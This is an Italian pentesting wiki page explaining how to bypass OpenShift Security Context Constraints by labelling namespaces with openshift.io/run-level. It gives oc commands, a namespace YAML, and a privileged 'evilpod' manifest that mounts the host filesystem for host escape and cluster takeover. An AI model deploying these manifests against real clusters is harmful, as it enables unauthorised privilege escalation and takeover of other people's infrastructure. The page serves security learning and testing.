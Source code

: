 # Openshift - SCC bypass

**L'autore originale di questa pagina è** [**Guillaume**](https://www.linkedin.com/in/guillaume-chapela-ab4b9a196)

## Namespaces Privilegiati

Per impostazione predefinita, SCC non si applica ai seguenti progetti:

- **default**
- **kube-system**
- **kube-public**
- **openshift-node**
- **openshift-infra**
- **openshift**

Se distribuisci pod all'interno di uno di questi namespaces, non verrà applicato alcun SCC, consentendo la distribuzione di pod privilegiati o il montaggio del file system host.

## Etichetta del Namespace

Esiste un modo per disabilitare l'applicazione di SCC sul tuo pod secondo la documentazione di RedHat. Dovrai avere almeno uno dei seguenti permessi:

- Creare un Namespace e Creare un Pod in questo Namespace
- Modificare un Namespace e Creare un Pod in questo Namespace
```bash
$ oc auth can-i create namespaces
yes

$ oc auth can-i patch namespaces
yes
```
L'etichetta specifica `openshift.io/run-level` consente agli utenti di eludere le SCC per le applicazioni. Secondo la documentazione di RedHat, quando questa etichetta è utilizzata, nessuna SCC è applicata a tutti i pod all'interno di quel namespace, rimuovendo effettivamente qualsiasi restrizione.

<figure><img src="../../../images/Openshift-RunLevel4.png" alt=""><figcaption></figcaption></figure>

## Aggiungi Etichetta

Per aggiungere l'etichetta nel tuo namespace :
```bash
$ oc label ns MYNAMESPACE openshift.io/run-level=0
```
Per creare un namespace con l'etichetta tramite un file YAML:
```yaml
apiVersion: v1
kind: Namespace
metadata:
name: evil
labels:
openshift.io/run-level: 0
```
Ora, tutti i nuovi pod creati nello spazio dei nomi non dovrebbero avere alcun SCC

<pre class="language-bash"><code class="lang-bash"><strong>$ oc get pod -o yaml | grep 'openshift.io/scc'
</strong><strong>$
</strong></code></pre>

In assenza di SCC, non ci sono restrizioni sulla definizione del tuo pod. Questo significa che un pod malevolo può essere facilmente creato per evadere sul sistema host.
```yaml
apiVersion: v1
kind: Pod
metadata:
name: evilpod
labels:
kubernetes.io/hostname: evilpod
spec:
hostNetwork: true #Bind pod network to the host network
hostPID: true #See host processes
hostIPC: true #Access host inter processes
containers:
- name: evil
image: MYIMAGE
imagePullPolicy: IfNotPresent
securityContext:
privileged: true
allowPrivilegeEscalation: true
resources:
limits:
memory: 200Mi
requests:
cpu: 30m
memory: 100Mi
volumeMounts:
- name: hostrootfs
mountPath: /mnt
volumes:
- name: hostrootfs
hostPath:
path:
```
Ora è diventato più facile elevare i privilegi per accedere al sistema host e successivamente prendere il controllo dell'intero cluster, ottenendo privilegi 'cluster-admin'. Cerca la parte **Node-Post Exploitation** nella seguente pagina:

{{#ref}}
../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md
{{#endref}}

### Etichette personalizzate

Inoltre, in base alla configurazione target, alcune etichette / annotazioni personalizzate possono essere utilizzate nello stesso modo dello scenario di attacco precedente. Anche se non è stato creato per, le etichette potrebbero essere utilizzate per concedere permessi, limitare o meno una risorsa specifica.

Cerca di individuare etichette personalizzate se puoi leggere alcune risorse. Ecco un elenco di risorse interessanti:

- Pod
- Deployment
- Namespace
- Service
- Route
```bash
$ oc get pod -o yaml | grep labels -A 5
$ oc get namespace -o yaml | grep labels -A 5
```
## Elenca tutti i namespace privilegiati
```bash
$ oc get project -o yaml | grep 'run-level' -b5
```
## Exploit avanzato

In OpenShift, come dimostrato in precedenza, avere il permesso di distribuire un pod in uno spazio dei nomi con l'etichetta `openshift.io/run-level` può portare a un takeover diretto del cluster. Dal punto di vista delle impostazioni del cluster, questa funzionalità **non può essere disabilitata**, poiché è intrinseca al design di OpenShift.

Tuttavia, misure di mitigazione come **Open Policy Agent GateKeeper** possono impedire agli utenti di impostare questa etichetta.

Per bypassare le regole di GateKeeper e impostare questa etichetta per eseguire un takeover del cluster, **gli attaccanti dovrebbero identificare metodi alternativi.**

## Riferimenti

- [https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html](https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html)
- [https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html](https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html)
- [https://github.com/open-policy-agent/gatekeeper](https://github.com/open-policy-agent/gatekeeper)
